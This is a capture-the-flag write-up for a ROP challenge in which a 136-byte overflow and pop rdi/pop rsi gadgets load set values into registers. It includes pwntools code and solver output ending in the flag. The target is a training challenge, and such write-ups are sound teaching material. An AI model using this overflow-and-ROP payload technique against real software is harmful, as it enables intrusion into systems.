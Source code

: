 # Mary Poppins strikes again

<p align="center">
<img src="./utils/mary_poppins_strikes_again.png" alt="Challenge" width="500"/>
</p>

Connecting to the remote instance with `netcat` we are given some of the [source code](./utils/program.c) for the challenge. We are also given the goal of the challenge, and some options to interact with the program.

This challenge is very similar to `inspector's new gadget`, but that we for this challenge have to put a value in the `rsi` register, in addition to the `rdi` register.
```
Your goal is to create a ROP chain consisting of two gadgets:
  pop rdi (0x4038db)
  pop rsi (0x4038dd)
rdi should contain 0xdeadbeef, and rsi should contain 0xc0debabe.
Use the "Verify ROP chain" menu option to get the flag.
```

We get the address all the useful gadgets we need from `option 5`, which we can automatize in our solve script.
```python
def get_gadgets():
    io.sendlineafter(b"> ", b"5")
    io.recvuntil(b"pop rdi; ret: ")
    pop_rdi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rsi; ret: ")
    pop_rsi = int(io.recvline().strip(), 16)
    io.recvuntil(b"pop rdx; ret: ")
    pop_rdx = int(io.recvline().strip(), 16)
    return pop_rdi, pop_rsi, pop_rdx
```

The payload we use is very similar to `inspector's new gadget`, only that we this time also add the `pop_rsi` gadget to put the value `0xc0debabe` into the `rsi` register.
```python
payload = b"A"*136
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi)
payload += p64(0xc0debabe)
```

The full, and commented, exploit script can be found in [solve.py](./solve.py).

```console
$ python3 solve.py
[+] Opening connection to pwn.tokle.dev on port 1341: Done
[+] Pop RDI @ 0x4038db
[+] Pop RSI @ 0x4038dd
[+] Pop RDX @ 0x4038df
[*] Switching to interactive mode
ROP chain looks good! Congrats, here's the flag: flag{popping_flags_all_day}
```